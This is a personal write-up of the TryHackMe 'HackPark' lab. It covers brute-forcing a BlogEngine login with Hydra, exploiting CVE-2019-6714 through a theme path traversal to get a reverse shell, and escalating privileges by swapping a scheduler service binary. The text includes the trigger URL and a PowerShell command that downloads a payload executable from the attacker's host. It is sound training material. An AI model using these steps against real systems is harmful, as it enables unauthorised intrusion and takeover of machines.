# HackPark Writeup

## Overview

This is my writeup for the HackPark room on TryHackMe.  This room involves bruteforcing a site's login with Hydra, identifying and using a public exploit to gain access and then escalate your privileges.

This is a intermediate room so if you are more of a beginner, then this may be to challenging.  If you are new to Windows exploitation in general, I would recommend attempting the [Steel Mountain](/ctf-writeups/Steel Mountain) or [Alfred](/ctf-writeups/Alfred) rooms.

## How to Access

I compelted this room on TryHackMe.  You can access it [here](https://tryhackme.com/room/hackpark).

## Steps

#### Information Gathering

As always, I begin with an nmap scan:

```
$ nmap -sC -sV -oN scans/initial -Pn 10.10.237.113
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 00:01 BST
Nmap scan report for 10.10.237.113
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-05-22T22:49:47
|_Not valid after:  2021-11-21T22:49:47
|_ssl-date: 2021-05-23T23:01:42+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.14 seconds
```

As shown above, there is a website running on port 80.  The main page shows a picture of **pennywise** (the 1990 version):



As I inspected the website, `gobuster` detected a login page:



Navigating to this page shows a generic login form for BlogEngine:



#### Using Hydra to Bruteforce a Login

After trying a few default credential combinations, I booted up BurpSuite to intersept the requests as I log in:



I then used Hydra to bruteforce the password for the admin user:



#### Gaining Access

After I logged in, I found that the site is running Blog Engine version **3.3.6**.  Using searchsploit, I found that this version is vulnerable to remote code injection (RCE):



I then copied this exploit (**CVE-2019-6714**) to my working directory and changed the listening IP address.  I then navigated to `http://<machine ip>/admin/app/editor/editpost.cshtml` and uploaded the file.  To do this, I created a Python HTTP server in the directory where the exploit was stored:



Next, I nagivated to the base URL for the blog and overrided the theme `http://10.10.108.108/?theme=../../App_Data/files`.  This triggers the vulnerability.

I used netcat to catch the callback:



Running `whoami` on the machine shows that I am logged in as `iis apppool\blog`.  

#### Compromise the Machine

Even though I have gained access to the machine, the current shell is quite unstable.  So let's update the shell.  I did this by creating a payload through `msfvenom`:



I then uploaded this file to the system using powershell:



I also loaded up `msfconsole` and ran `use exploit/multi/handler` to catch the callback:


I then ran `sysinfo` and discovered that this system is running the **Windows 2012 R2 (6.3 Build 9600)** operating system.



#### Privilege Escalation with Metasploit

At this point, you have to perform more enumeration on the machine in order to find points of vulnerability.  Although I managed to find the vulnerable binary, I was unable to find the abnormal service without looking at other writeups.  The abnormal service is **WindowsScheduler**.

I found the vulnerable binary by checking `C:\Program Files (x86)\SystemScheduler`:



Using this information, I created another payload using `msfvenom` and called it `Message.exe`:



I then uploaded it using the `upload` command:



I then had to replace the binary which was already on the system:



Finally, I set up netcat once again to catch the callback when the new file was executed:



Now, I am logged in as the admin user with full privileges.  So, I then retrieved both flags (user.txt and root.txt):





#### Privilege Escalation without Metasploit

It is entirely possible to escalate your privileges without metasploit.  I did this by creating a similar payload using `msfvenom`:


I then powershell to upload the new payload to the `C:\Windows\Temp` directory:

```
C:\Windows\Temp> powershell -c "Invoke-WebRequest -Uri 'http://10.9.150.161:80/shell.exe' -OutFile shell.exe"
```

As before, I created a Python HTTP server where the new payload was stored.  

To enumerate the machine, I then uploaded winPEAS (download [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)).

Once uploaded, I executed winPEAS and found that this system was originally installed on **8/3/2019, 10:43:23 AM**.

And that's it!

## Summary and Feedback

This was a very challenging room, especially as I am fairly new to Windows exploitation.  I had quite a lot of difficulty actually finding the answer to some of the tasks (even with hints).  I would definitely recommend attempting other rooms, particularly if you're new to Windows exploitation.
